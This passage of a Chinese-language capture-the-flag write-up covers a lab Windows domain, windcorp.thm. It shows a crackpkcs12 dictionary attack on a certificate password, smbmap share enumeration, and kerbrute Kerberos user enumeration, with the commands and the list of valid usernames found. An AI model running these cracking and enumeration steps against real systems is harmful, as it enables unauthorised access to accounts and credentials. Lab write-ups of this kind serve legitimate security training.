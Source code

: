 **我决定看看是否有办法提取存储在该证书中的信息。我找到了一个叫 [**crackpkcs12**](https://github.com/crackpkcs12/crackpkcs12) 的工具，可以用来破解 PKCS#12 文件密码(扩展名. p12 或者。pfx)。我用这个工具和 **rockyou** 密码列表进行了一次字典攻击。**

```
crackpkcs12 -d rockyou.txt cert.pfx
```

**![](img/d705f2a54ca24fb5052dcab09f973e6e.png)**

**证书密码。**

**这是可行的，我检索了创建证书时使用的密码，但是，我还不太确定我能做些什么。我决定对可用的服务进行更多的枚举。**

# ****SMB 枚举****

**我可以看到端口 139 和 445 是打开的。我试图使用 **smbmap** 枚举共享，但不幸的是，匿名登录没有启用，导致了一个死胡同。**

```
smbmap -H 10.10.138.163 -L
```

# **Kerberos 枚举**

**NMAP 扫描的输出显示端口 88 是开放的，Kerberos 在其上运行。**

```
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2022-04-15 13:32:06Z)
```

**使用前面在执行 web 枚举时看到的用户列表，我决定通过滥用 Kerberos 预认证来使用**Kerberos**枚举有效的 active directory 用户。**

```
./kerbrute_linux_amd64 userenum --dc 10.10.172.217 -d windcorp.thm -o kerbrute-user-enum userlist[+] VALID USERNAME:       organicfish718@windcorp.thm
[+] VALID USERNAME:       Edeltraut@windcorp.thm
[+] VALID USERNAME:       angrybird253@windcorp.thm
[+] VALID USERNAME:       buse@windcorp.thm
[+] VALID USERNAME:       Emile@windcorp.thm
[+] VALID USERNAME:       tinygoose102@windcorp.thm
[+] VALID USERNAME:       brownostrich284@windcorp.thm
[+] VALID USERNAME:       sadswan869@windcorp.thm
[+] VALID USERNAME:       goldencat416@windcorp.thm
[+] VALID USERNAME:       whiteleopard529@windcorp.thm
[+] VALID USERNAME:       orangegorilla428@windcorp.thm
[+] VALID USERNAME:       happymeercat399@windcorp.thm
[+] VALID USERNAME:       kirkug@windcorp.thm
[+] VALID USERNAME:       emilieje@windcorp.thm
[+] VALID USERNAME:       lilyle@windcorp.thmDone! Tested 48 usernames (15 valid) in 1.858 seconds
```
